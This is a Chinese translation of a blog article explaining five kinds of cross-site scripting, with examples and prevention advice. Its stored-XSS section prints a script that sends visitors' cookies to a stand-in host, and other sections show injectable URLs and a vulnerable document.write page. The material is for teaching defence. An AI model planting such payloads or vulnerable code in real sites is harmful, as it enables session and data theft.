

# 5种跨站脚本攻击及防御措施

> 原文请查阅[这里](https://blog.sessionstack.com/how-javascript-works-5-types-of-xss-attacks-tips-on-preventing-them-e6e28327748a)，略有删减，本文采用[知识共享署名 4.0 国际许可协议](http://creativecommons.org/licenses/by/4.0/)共享，BY [Troland](https://github.com/Troland)。

**这是 JavaScript 工作原理的第二十一章。**

## 概述
跨站脚本（XSS）是浏览器端的代码注入攻击。当攻击者能够将恶意代码注入应用程序就会执行注入攻击。然后代码会在特定环境执行并执行恶意操作。

对于浏览器，攻击者向 Web 应用程序内部注入恶意脚本，随后被受害者使用。通常，XSS 攻击基于受害者对他们使用的 Web 应用程序的信任。

JavaScript 在受限的环境下运行，该环境对用户的操作系统的访问权限有限。这意味着 XSS 攻击无意破坏受害者的计算机，其主要目标是窃取个人信息。


根据攻击者的目标，可以采用不同的方式来实现 XSS。 XSS 攻击有五种主要类型。

## 持久型跨站脚本 Persistent (Stored) XSS

当 Web 应用程序接受用户输入并将其存储到服务器时，可能会存在持久型 XSS。应用程序在存储数据前未执行正确的前端/后端验证，因此存在严重漏洞。随后应用加载存储的数据并将其嵌入到 HTML 响应页面中时，便是代码注入的时机。

持久型 XSS 的攻击频率较低，因为使它们成为可能的漏洞较不常见且很难发现。

另一方面，它们破坏力很强。因为一旦恶意数据被存储在 Web 应用程序的服务器上，就有可能提供给许多用户。其他用户无需点击恶意链接或类似的东西-恶意代码已经嵌入到程序本身。

持久型 XSS攻击是 2 型 XSS 攻击，因为该攻击的实施需要通过两个请求执行的：

1. 注入恶意代码并将其存储至 Web 服务器；
2. 加载存储的代码并将其嵌入到包含有效负载的HTML页面中；

某些特定类型的网站和 Web 应用更容易遭受持久型 XSS攻击，因为它们允许用户共享内容。常见的例子是社交网络和论坛。

### 例子

假设攻击者在社交网络中的帖子下找到了评论功能的漏洞 - 社交网络应用直接在 html 页面的评论里渲染原始输入。


这允许攻击者在其评论中添加自定义脚本。

```html
<script> window.location = 'https://example.com/?user_data=' + document.cookies; </script>
```

当社交网络应用加载此评论时，它将在其 HTML 中包含了 `script`标签。自动将当前用户重定向到恶意网站的 URL，并以所有 cookie 为参数发送。随后，恶意网站可以存储 cookie 并窃取敏感数据。

由于许多人可以访问到特定帖子的评论，因此所有访问者都可能成为受害者。

这个例子其实比较浅显，实际上也没有那么多如此容易就能找到严重漏洞的社交网络平台，但这个例子说明了持久型 XSS 的潜在规模。

### 预防措施

防止持久型 XSS 攻击的最有效方法是，默认确保对所有用户输入存储到服务器上之前进行适当的校验清理。

静态内容过滤也是一种不错的做法毕竟恶意脚本可以通过各种方式注入。

仅在客户端上几乎没有可靠的方法可以完全进行以防止持久型 XSS 攻击。

## 反射型 XSS（Reflected XSS）

反射型 XSS 攻击发生在从浏览器发送到服务器的数据包含在服务器的响应中时。

之所以称为“反射型”是因为恶意脚本会从网络应用程序反射到受害者的浏览器。

攻击者诱导用户访问一个带有恶意代码的链接后激活，链接将具有漏洞的请求发送到 Web 应用程序，该漏洞使恶意脚本得以执行。

与在 Web 应用程序服务器上存储恶意脚本的持久型 XSS 攻击不同，反射型 XSS 攻击仅要求将恶意脚本嵌入 URL中。

另一点不同之处是持久型 XSS 攻击会自动对访问页面的任何用户执行恶意脚本，而反射式 XSS 攻击则要求最终用户点击恶意链接。

### 例子

假设有一个应用程序具有搜索功能。其工作方式如下：

* 用户在输入框中输入搜索词。
* Web 应用程序将用户重定向到结果页，页面链接上将搜索词作为查询参数。
* 搜索词取自查询参数，并被发送到服务器进行处理。
* 处理完成后，页面上会渲染响应数据。响应中既包含用户的搜索词，也包含来自服务器的匹配结果。

如果用户在输入框中输入`javascript`，则将重定向到以下页面：

`https://example.com/search/?term=javascript`

程序获取`javascript`一词，并发送到服务器。处理完成后，页面将渲染响应：

```html
<div> You searched for: javascript </div>
<div> Results: </div>
```
如果应用未对搜索词进行任何处理或验证，则攻击者可以通过以下输入将恶意代码嵌入搜索词中：

```html
<script>/*Malicious code*/</script>
```

生成的 URL 如下：

`https://example.com/search/?term=<script>/*+Malicious+code+*/</script>`

页面则会渲染：

```html
<div> You searched for: <script>/*Malicious code*/</script> </div>
<div> Results: </div>
```

如果将此 URL 分享给其他用户，攻击者提供的脚本将会在他们的浏览器中执行。


攻击者可以通过多种方式将恶意链接传播给受害者。包括将链接放置在攻击者控制的网站和其他内容生成型的网站（论坛，社交网络等），或通过电子邮件发送链接等。

攻击可能针对特定用户，也可能是对任何用户的无差别攻击。

### 措施

与持久型 XSS 攻击不同，用户可以保持警惕，从而避免反射 XSS 攻击。具体来说，就是不点击可疑链接。

与持久型 XSS 一样，必须对所有用户输入进行清理。

## 自我型跨站脚本攻击 Self-XSS

自我型 XSS 与反射型 XSS 非常相似。不同之处在于无法通过特制URL 触发攻击。自我型 XSS 只能由受害者本人在自己的浏览器中触发。

听起来这种 XSS 攻击并不危险，这远非事实。自我型 XSS 攻击是通过社交工程成功进行的。在信息安全的大背景下，社会工程学是在心理上操纵他人执行可能对自身产生负面影响的行动。

### 例子

自我 XSS 攻击的一种常见方式是使受害者将一些恶意代码粘贴到其浏览器的控制台中。这样攻击者可以访问到 cookie，DOM 等所有当前可用信息。


### 措施

只有用户保持警惕心才能阻止此类攻击。网络应用的开发人员无法在浏览器的控制台中侦测或封锁恶意代码的执行。

一些流行的网络应用和网站会浏览器控制台中放置警告消息，以防止用户在此执行任何代码。

某些浏览器方会采取一些措施，通过实施安全措施来警告用户有关自我 XSS 攻击信息的方式来减少此类攻击发生的几率。

## 基于 DOM 的跨站脚本攻击 DOM-based XSS

基于 DOM 的 XSS 攻击常发生于程序当动态更改的 DOM 并在运行时由 Web应用程序本身注入恶意代码时。

基于 DOM 的 XSS 的触发需要网络应用的 JavaScript 代码需从攻击者可以控来源（例如浏览器标签页中的URL）处获取输入。

### 例子

让我们看以下页面：

```html

<html>
  <head>
    <title> Dashboard </title>
  </head>
  <body>
  <script>
      let startPosition = document.URL.indexOf("role=") + 5;
      let userRole = document.URL.substring(startPosition,document.URL.length); 
      document.write(userRole);
  </script>
  </body>
</html>
```

页面的脚本从“角色”查询参数中获取值，并将其插入到 DOM 中。
攻击者可以将查询参数的值设为一段恶意代码，该代码将注入到 DOM 中：

`https://example.com/?role=<script>/*Malicious+code*/</script>`



即便 Web 应用程序的代码容易受到这种攻击，在这特殊情况下，由于 URL 是请求的一部分，所以服务器可以检测到。若服务器内置了对应的安全机制，基于 DOM 的 XSS 攻击完全可以避免。

另一种避免将有效载荷发送到服务器的技术是使用 URL片段。 这是 URL 中位于`＃`号之后的部分。 URL 片段不会由浏览器发送到服务器。

先前的URL可以修改为：

`https://example.com/#role=<script>/*Malicious+code*/</script>`

这样，恶意脚本将不会被发送至服务器，当然也就不会被检测到。

### 措施

所有依赖用户输入的 DOM 操作和重定向都应进行检测。这一步骤应该在客户端进行，因为无法在服务器上防止基于 DOM 的XSS。

某些情况下用户的警惕性也可能起作用。在类似示例的情况下，用户必须点击 URL 或需要输入一些数据，因此在输入恶意代码时应谨慎。

## Blind XSS 
盲 XSS 攻击是一种持久型 XSS 攻击。它们以相同的方式执行。

不同之处在于，恶意代码是在应用程序的另一部分或在完全不同的应用程序中渲染及执行。在这两种情况下，攻击者都无法访问到执行恶意代码的页面。

### 例子

Blind XSS 攻击的一个示例是，攻击者将恶意代码注入 Web 应用程序的客户反馈页面中。当程序管理员打开反馈信息中心时，恶意代码将被执行。

脚本甚至可以在其他应用中使用，例如管理用户反馈的内部工具。
恶意代码可以由服务器保存，并且只有在管理员访问易受攻击的仪表板页面很长一段时间后才执行。有效负载执行可能花费数小时，数天甚至数周。


> 补充: 翻到结尾发现文章结构有点问题。既然 Blind XSS 属于持久型 xss 攻击就不应该名约 5 种类型。

Blind XSS 攻击的另一个示例是利用日志解决方案，如异常处理程序。攻击者可以使用日志管理的 API 来记录恶意代码而不是错误。

在异常处理解决方案的面板中显示已记录的错误，渲染并执行恶意代码。

### 措施

由于此类攻击属于持久型 XSS 攻击的子集，因此预防措施也是一样的。

## 参考资源

* https://sucuri.net/guides/what-is-cross-site-scripting/
* https://www.acunetix.com/blog/articles/persistent-xss/
* https://medium.com/iocscan/persistent-cross-site-scripting-p-xss-557c70377554
* https://portswigger.net/web-security/cross-site-scripting/reflected
* https://www.acunetix.com/websitesecurity/detecting-blind-xss-vulnerabilities/